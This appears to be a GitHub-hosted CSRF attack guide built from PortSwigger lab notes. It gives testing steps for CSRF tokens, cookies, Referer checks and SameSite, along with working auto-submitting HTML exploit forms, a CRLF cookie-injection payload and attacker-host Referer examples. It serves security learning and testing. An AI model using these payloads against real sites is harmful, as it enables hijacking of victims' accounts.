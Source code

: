 # CSRF (Cross-Site Request Forgery) Attack Guide

---

## Index

1. [Conditions for a CSRF Attack](#Conditions-For-a-CSRF-Attack)
2. [Testing CSRF Token](#testing-csrf-token)
3. [Testing CSRF Token and CSRF Cookies](#testing-csrf-token-and-csrf-cookies)
   - [Check if CSRF Token is Tied to the CSRF Cookie](#check-if-csrf-token-is-tied-to-the-csrf-cookie)
4. [Exploitation Techniques](#exploitation-techniques)
   - [HTML Exploit Example](#html-exploit-example)
   - [Image-based CSRF Cookie Injection](#image-based-csrf-cookie-injection)
5. [Testing the Referer Header for CSRF Attack](#testing-the-referer-header-for-csrf-attack)
   - [Exploit for Referer Header Validation (Case 1)](#exploit-for-referer-header-validation-case-1)
6. [Bypassing SameSite Lax Policy](#bypassing-samesite-lax-policy)

---

## Conditions for a CSRF Attack

For a CSRF attack to be possible, three key conditions must be in place:

1. **A relevant action**  
2. **Cookie-based session handling**  
3. **No unpredictable request parameters**

---

## Testing CSRF Token

When testing a CSRF token, follow these steps:

1. **Remove CSRF parameter/token**: Check if the application accepts requests without the token.
2. **Change request method (POST to GET)**: Test if changing the method affects token validation.
3. **Exchange CSRF token with another user**: Verify if tokens are user-specific by testing another user’s token.

---

## Testing CSRF Token and CSRF Cookies

**If CSRF cookie Not Tied With User Session Cookie**

1. **Submit an invalid CSRF token**: See if the application accepts it.
2. **Submit a valid CSRF token from another user**: Check if the token is user-specific. 
3. **Submit a valid CSRF token and CSRF cookie from another user**: Test if both token and cookie are required to match.
4. **Assign a random value to token + cookie**: In a duplicated token cookie, try setting the same random value to both.

**If CSRF cookie Tied With User Session Cookie**

<br>

**Note:** You can collect csrf token by inspect element.

---

### Exploitation Techniques

To exploit a CSRF token + cookie mechanism, two actions are required:

1. **Inject a CSRF cookie into the user's session** (via HTTP header injection)
2. **Send a CSRF attack to the victim**

### HTML Exploit Example

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<script>
        document.forms[0].submit();
</script>
```

### Image-based CSRF Cookie Injection

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```

---

## Testing the Referer Header for CSRF Attack

1. **Remove the Referer header**: See if the application still processes the request without it.
2. **Validate which part of the Referer header is used**: Identify which part is validated by the application.

   - **Example 1**: `Referer: https://attacker.com/?vulnerable-web.net`
   - **Example 2**: `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack`

### Exploit for Referer Header Validation (Case 1)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Bypassing SameSite Lax Policy

Key Note:
```plaintext
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```

### Steps

1. **Change request method from POST to GET**: Test if SameSite policy can be bypassed with a GET request.
2. **Via cookie refresh**: Simulate a refresh to force SameSite cookie behavior.

--- 
